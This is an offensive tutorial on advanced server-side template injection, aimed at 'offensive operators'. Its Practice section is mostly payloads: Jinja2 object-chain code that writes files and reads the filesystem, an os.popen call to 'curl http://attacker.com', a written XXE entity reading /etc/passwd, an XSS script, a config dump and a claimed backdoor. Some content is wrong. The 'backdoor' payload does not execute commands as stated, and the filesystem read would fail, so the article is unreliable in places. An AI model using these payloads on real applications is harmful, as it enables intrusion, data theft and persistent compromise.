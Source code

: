 ```yaml
---
title: Advanced Techniques in Server-Side Template Injection
description: Explore advanced SSTI techniques for exploitation, including file uploads,
  SSRF, XXE, XSS, and persistent backdoors.
keywords:
- SSTI
- server-side template injection
- advanced techniques
- SSRF
- XXE
- persistent backdoor
- template chaining
- polyglot payloads
- template-based XSS
---
```


# Advanced Techniques

## Context

This article delves into advanced server-side template injection (SSTI) techniques, enabling offensive operators to exploit applications more effectively. These techniques target post-exploitation actions, allowing for lateral movement and the execution of multi-vector attacks. Readers are expected to understand the fundamentals of template engines, the server-side execution context, HTTP request/response cycles, and basic SSTI exploitation.

## Theory

### Multi-Vector Exploitation via SSTI

Advanced SSTI techniques can be leveraged to trigger secondary vulnerabilities or facilitate chained attacks. By manipulating the template injection, attackers can perform server-side request forgery (SSRF), XML external entity attacks (XXE), file uploads, or even cross-site scripting (XSS) by crafting payloads that interact with and exploit other components of the application.

### Template Chaining and Polyglot Payloads

Template chaining involves combining payloads that target multiple template engines or use multiple payload techniques to bypass security filters or escalate the attack's impact. Polyglot payloads are particularly powerful as they are designed to be valid across different template syntaxes, significantly increasing the reliability and reach of the exploit.

### Persistent and Backdoor Template Injection

Persistent SSTI refers to the storage of malicious template payloads in the application data, which are then triggered on future renders. A template backdoor is a specific type of persistent injection where the code grants ongoing access or triggers based on specific conditions, maintaining persistent control over the compromised application.

### Sensitive Data and Configuration Exposure

SSTI can expose critical server information such as environment variables, configuration files, and allow filesystem enumeration through strategic template expressions. This vulnerability model can reveal sensitive data that might be leveraged for further attacks or information disclosure exploits.

## Practice

### File Upload via SSTI

To create a file on a server using Python-based template injection, the following payload can be used:

```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/ssti.txt','w').write('owned by ssti') }}
```

This payload leverages the server-side template engine's ability to execute arbitrary code, resulting in the creation of an arbitrary file on the server's filesystem.

### SSRF via Template Injection

By triggering an HTTP request from the server to an attacker-controlled endpoint, SSRF can be executed using:

```python
{{ self._TemplateReference__context.cycler.__init__.__globals__.os.popen('curl http://attacker.com') }}
```

This payload sends an HTTP request to the specified URL, possibly permitting unwanted communication or data exfiltration through the server.

### XXE via Template Injection

For exploiting XXE, create a malicious XML file:

```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/payload.xml','w').write('<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>') }}
```

This approach writes a payload to the server for use in subsequent XXE attacks.

### Template-Based XSS

To execute client-side scripts via template rendering, inject JavaScript as follows:

```python
{{ '<script>alert(1)</script>' }}
```

This payload exploits template execution to trigger stored or reflected XSS, executing scripts in client browsers.

### Environment Variable Disclosure via SSTI

Access sensitive server and environment data with this payload:

```python
{{ config.items() }}
```

This expression accesses and enumerates application configuration and environment variables.

### Filesystem Enumeration via SSTI

Attempt to read directories or file contents using:

```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/','r').read() }}
```

This payload aims to access the server filesystem to gather sensitive information.

### Persistent Template Injection (Stored SSTI)

Persistent SSTI involves injecting payloads that are stored in persistent fields such as user profiles or comments, and these payloads execute during subsequent template renders, ensuring ongoing code execution and exploitation opportunities.

### Template Backdoor Implantation

For persistent access, utilize a backdoor payload:

```python
{{ request.args.get('cmd')|safe }}
```

This payload executes arbitrary commands passed as HTTP parameters, facilitating remote command execution.

### Polyglot Template Payloads

To exploit multiple template engines, use a polyglot payload:

```jinja
{{7*7}}{% if 7*7 == 49 %}{{7*7}}{% endif %}
```

This payload demonstrates compatibility with both Jinja2 and Twig engines, enhancing the exploit’s reach and success rate.

## Tools

- **None** (No specific tools are tied to these techniques; exploitation is context-dependent and requires manual payload crafting.) 

In leveraging these advanced SSTI techniques, operators can gain deeper access and control over compromised systems by exploiting lesser-known capabilities of server-side templates, thus enhancing attack vectors and persistence.